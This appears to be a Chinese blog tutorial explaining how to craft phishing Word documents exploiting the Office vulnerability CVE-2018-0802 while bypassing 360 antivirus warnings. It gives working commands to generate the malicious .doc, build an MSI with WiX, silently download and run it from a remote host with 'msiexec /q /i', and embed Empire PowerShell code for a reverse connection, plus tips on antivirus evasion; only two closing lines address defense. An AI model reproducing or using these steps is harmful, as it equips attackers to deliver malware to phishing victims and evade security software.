





绕过360进行Word文档钓鱼
俗话说：姜太公钓鱼，愿者上钩！现在apt比较流行，这里记录一下Word文档的钓鱼攻击手法。
之前通过域或者宏功能进行攻击的钓鱼文档，需要目标用鼠标进行点击交互，并且会有明显的弹窗提示，容易被察觉，并且现在已经被大部分杀软查杀。之后，今年一月又爆出一个新的Office 0day漏洞（CVE-2018-0802），关于该漏洞的详细信息请点击这里[http://www.freebuf.com/vuls/159789.html],国内的Ridter大佬根据github上公开的一个利用脚本[https://github.com/zldww2011/CVE-2018-0802_POC]，编写了一个改进版的利用脚本--RTF_11882_0802,大佬Github地址[https://github.com/Ridter/RTF_11882_0802/]。自己技术菜，不是很了解原理，在这里就分享下我的利用方法，以及如何绕过杀软弹窗，大佬们轻喷！
0x01
首先下载该脚本，利用方法github上说的很清楚了,这里说下 -i 参数，test.rtf为你的输入文档，即运行下方代码后，生成的Doc文档内容和test.rtf一致。你可以事先写好一份文档内容，另存为RTF格式，为后续步骤准备。
python RTF_11882_0802.py -c "cmd.exe /c calc.exe" -o test.doc -i test.rtf 上述代码很简单，在没有杀软的情况下用Office软件打开Doc文件可以完美弹出计算器，但是在有360的情况下，纳尼？？直接报毒！好吧，毕竟360！于是，尝试其他命令执行漏洞的方法。例如之前常用的的powershell,mshta,regsvr32,这些方法都不会报毒，但是会有弹窗提示用户有风险程序需要运行，很明显一般人都会点击阻止程序运行，谁会点击允许啊？神经病啊！！！

0x02
没办法，只能去寻找不触发弹窗并且最好是Windows自带的程序。Google了半天，最终找到了一个好方法,参考链接请点击这里[https://baijiahao.baidu.com/s?id=1586899175661391940&wfr=spider&for=pc]，利用Windows系统自带的msiexec程序下载并远程运行msi文件，以达到执行特定命令的目的。为了方便阅读，Wix工具下载请点击这里[https://archive.codeplex.com/?p=wix],wix文件模板下载请点击这里[https://github.com/mari0er/picture/blob/master/0202/calc.wix]。安装完Wix工具后执行下列前两条命令，会在同目录下生成一个calc.msi文件，最后一条命令表示远程下载并利用msiexec运行calc.msi文件。
这里解释下参数的意义: /q --以安静模式运行 /i --官方解释是状态消息，不加的话会弹出Windows Installer框引起怀疑
C:\Program Files (x86)\WiX Toolset v3.10\bin>candle.exe calc.wix
C:\Program Files (x86)\WiX Toolset v3.10\bin>light.exe calc.wixobj
C:\Program Files (x86)\WiX Toolset v3.10\bin>msiexec /q /i http://192.168.10.18/calc.msi注意：Cmd需要以管理员身份运行，利用模板文件默认打开电脑计算器，若要执行其他命令请自行修改模板文件的第15行
0x03
下面使用empire和上述的方法制作一份钓鱼文档。首先配置好empire，具体的配置内容可以参考这篇文章[https://mari0er.club/post/empire.html],之后将生成的powershell代码复制粘贴到wix模板的第15行，替换之前打开计算器的代码，然后,用第二步的方法制作成msi文件，最后利用RTF脚本生成doc文件。此时打开Word文档就会远程执行下载和安装msi木马的命令，进一步运行powershell进行反弹。
python RTF_11882_0802.py -c "msiexec /q /i http://192.168.10.18/calc.msi" -o test.doc -i test.rtf
0x04
看到这里有人可能要问：为什么非要先调用msi文件再间接调用powershell呢？直接把执行命令通过RTF脚本写到文档里不是更方便吗？这里说一下，经过我的测试发现，直接利用RTF脚本运行命令，在360存在的情况下一定会弹窗，但通过msi安装文件却不会，其次RTF脚本 -c 参数有109字节数限制。其实还有很多其他的利用方法，比如利用msiexec直接下载并运行msfvenom制作的msi木马文件，可以直接获得meterpreter会话。但是，需要提前对msi木马文件进行免杀处理。

上线

0x05
防护方法：1.及时打上微软推出的补丁 2.不要随意下载未知邮件里的文档，更不要随意打开并查看文档内容。

作者： Mari0er
参考链接：见阅读原文